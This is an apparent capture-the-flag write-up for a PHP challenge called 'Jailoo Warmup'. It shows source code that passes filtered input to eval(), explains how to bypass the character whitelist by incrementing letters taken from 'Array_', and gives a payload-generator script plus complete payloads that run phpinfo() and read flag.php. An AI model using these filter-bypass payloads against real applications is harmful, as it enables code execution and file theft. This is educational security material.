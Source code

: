 
### JAILOO WARMUP

 ```php 
<?php 
	if(sizeof($_REQUEST)===2&& sizeof($_POST)===2){
	$cmd=$_POST['cmd'];
	$submit=$_POST['submit'];
	if(isset($cmd)&& isset($submit)){
		if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		}else{
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	}else{
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	}else if ($_SERVER['REQUEST_METHOD']!="GET"){
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	 ?>
 ```

Given the source code ,you notice that there are  few characters  allowed .

You have to manage writing a php code which allows you to read ***FLAG.PHP*** .

Watching this php behaviour,

![](./1.png)

It returns **"Array"**

![image-20200908223754270](./2.png)

 As you can see once you try to concatenate , you get a string ***“Array_”*** which is  all what you need to write the payload.

You only need to extract  the first letter  and keep incrementing until you get all the letters needed to write your payload.

![image-20200908223844850](./3.png)

Here is a solver which will do the job .

```php
<?php
$_=([]._)[_==__];
$a=array('P','H','P','I','N','F','O');
$payload='//A'. "\n".'$_=([]._)[_==__];'."\n".'$__="";'."\n";
foreach ($a as $key) {

		$num=-1;
		for ($i=0; $i <26; $i++) { 
			$found= $_++;
			$num++;
			$res='';
			if($found===$key){
				
				for ($i=0; $i < $num ; $i++) { 
					$res.='$_++;';

				}
			$payload.="//".$key."\n".$res."\n".'$__.=$_;'."\n".'$_=([]._)[_==__];'."\n";
			break;
			}
		}
	$_=([]._)[_==__];
	
}
echo "PAYLOAD :\n".$payload;

?>
```



Gather more information by getting the phpinfo.

***PHPINFO();***

```
$_=([]._)[_==__];$__="";$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$__();
```

You'll notice that ***readfile*** is not disabled .



***READFILE(“FLAG.PHP”);***

```
$_=([]._)[_==__];$__="";$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$__.=$_;$____=$__;$__="";$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_.".";$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$_=([]._)[_==__];$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$__.=$_;$____($__);
```



Works pretty fine !

![image-20200908224144454](./4.png)
